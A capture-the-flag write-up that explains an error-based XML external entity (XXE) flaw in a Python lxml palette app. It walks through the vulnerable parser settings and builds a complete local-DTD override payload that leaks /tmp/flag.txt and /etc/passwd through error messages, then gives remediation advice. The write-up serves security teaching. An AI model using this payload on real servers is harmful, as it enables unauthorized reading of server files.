


> This writeup was selected as one of the best for this challenge. [Read it on the YesWeHack website](https://www.yeswehack.com/dojo/dojo-ctf-challenge-winners-42)

## Description
This challenge revolves around a Python web application that renders user-supplied XML data through a templated HTML interface. The application uses the `lxml` library to parse XML files and extract hexadecimal colour codes to populate a front-end colour palette. However, the XML parser is configured to allow external Document Type Definitions (DTDs) and resolve entities, which opens the door to an XML External Entity (XXE) injection vulnerability.

Due to insufficient input validation and insecure parser configurations, an attacker is able to inject arbitrary entity declarations, thereby allowing him to manipulate the server into disclosing files stored on it.

## Exploitation
To identify potential vulnerabilities within an application, analysing the source code is an effective approach as it reveals insecure coding practices, such as improper input validation or the misuse of certain libraries. In this scenario, we are presented with a web application that accepts a user input, which is then parsed by the program - potentially influencing the contents returned to the user.

### Code Analysis
The first step in performing our taint tracking is to examine how our input is being handled by the program. In this scenario, a Web Application Firewall URL-encodes the user input before it reaches the web server.

```python
data = unquote(USER_INPUT)

try:
    parsed_text, colors = promptFromXML(data)
except Exception as e:
    parsed_text = f"Error : {str(e)}"
    colors = []

print(template.render(output=parsed_text, colors=colors, image=None))
```

Our user input is first decoded using the `unquote()` function, returning to its original form (our raw input) before being passed to the `parse_palette()` function. The result of XML parsing, or any errors that occurs, is echoed back to the user in a templated HTML response. This hints that our payload could manipulate the contents of error messages, which often tend to be verbose.

```python
def parse_palette(xml_data):
    parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
    tree = etree.parse(io.StringIO(xml_data), parser)
    root = tree.getroot()
    colors = set()

    # Only parsing hex color
    for elem in root.iter():
        if elem.text and re.match(r"^#(?:[0-9a-fA-F]{3,6})$", elem.text.strip()):
            colors.add(elem.text.strip().lower())

    return list(colors)
```

The `parse_palette()` function is where the bulk of the data processing lies at. There are a few key points that can be noted regarding the function's implementation:

- `load_dtd=True`: allows the XML parser to load external DTDs
- `resolve_entities=True`: enables the expansion of external entities
- There is no sanitisation of the `xml_data` parameter

In the setup code, we can observe that there is a DTD file located at `/tmp/xml/config.dtd`:

``` python
with open("xml/config.dtd", 'w') as f:
    f.write('''
<!ENTITY % dtd "<!ELEMENT config (#PCDATA)>">
%config_hex;
''')
```

Note the reference to an undefined entity `%config_hex`.

### Conclusions drawn from Code Analysis

From the configuration of `lxml.etree.XMLParser` in which both `load_dtd` and `resolve_entities` were set to `True`, we can deduce that the application will:

1. Load external DTDs from file paths
2. Expand nested parameter entities
3. Attempt to resolve file paths provided within entity values

From the DTD file stored at `/tmp/xml/config.dtd` which contains an undefined entity `%config_hex`, we can deduce the possibility of overriding this entity with arbitrary ones, which will be subsequently loaded by the parser. Based on this idea, we can slowly piece together a payload:

To begin with, we need to load the local DTD at `/tmp/xml/config.dtd`:

```xml
<!ENTITY % local_dtd SYSTEM "file:///tmp/xml/config.dtd">
```

Next, we need to override `%config_hex`, which could have nested parameter entities that would be expanded via the parser's `resolve_entities=True` configuration. We need to include the following:

```xml
<!ENTITY % flag SYSTEM "file:///tmp/flag.txt">
```

This allows reads the contents of `/tmp/flag.txt` into the `%flag` entity.

```xml
<!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///aaa/%flag;'>">
```

This creates a nested entity `%error` that references a non-existent file path (`aaa`) with the flag appended to it.

```xml
%eval;
```

This expands `%eval`, which causes the parser to resolve `%error`.

Finally, we just need the parser to load `/tmp/xml/config.dtd`, which will then encounter `%config_hex` (which we have overridden).

```xml
%local_dtd;
```

The parser will then read the contents of `/tmp/flag.txt` into `%flag`, and within `%error`, construct a path `file:///aaa/{FLAG_CONTENT}`. Since the filepath `aaa/{FLAG_CONTENT}` most probably does not exist, an error containing the resolved path will be thrown, and the resolved path will be returned as part of the error message (hopefully).

## Proof of Concept
Before we merge everything together, we need to note that some characters need to be replaced with their Unicode hex character codes to bypass parser restrictions and prevent premature expansions during entity parsing.

| Original | Encoded |
| --- | --- |
| `%` | `&#x25;` |
| `&` | `&#x26;` |
| `'` | `&#x27;` |

Double-encoding is also used to delay expansions. For example, `&#x26;#x25;` -> `&#x25;` -> `%`.



**PAYLOAD:**
```xml
<!DOCTYPE colors [
    <!ENTITY % local_dtd SYSTEM "file:///tmp/xml/config.dtd">
    <!ENTITY % config_hex '
        <!ENTITY &#x25; flag SYSTEM "file:///tmp/flag.txt">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///aaa/&#x25;flag;&#x27;>">&#x25;eval;'>
        %local_dtd;
]>
```

**FLAG: `FLAG{3rr0r_B4s3d_XX3_w1th_Sw4G}`**

## Risk
This vulnerability presents a serious risk as it allows an attacker to read files on the server, leading to a loss of confidentiality. For example, we are able to leak the contents of `/etc/passwd`:



## Remediation
To remediate this vulnerability, the configuration options of the `lxml.etree.XMLParser`, in particular, `load_dtd` and `resolve_entities` should be set to `False` to prevent the loading of DTDs and entity expansions.

Input validation and sanitisation should be incorporated before the user input is processed by the `parse_palette()` function to prevent blacklisted characters and keywords (e.g. `<!DOCTYPE`, `SYSTEM`) from being parsed.

Additionally, error messages returned to the user should avoid including the XML parser's error messages as these could unintentionally leak file paths, stack traces, and in this scenario, the contents of arbitrary files.

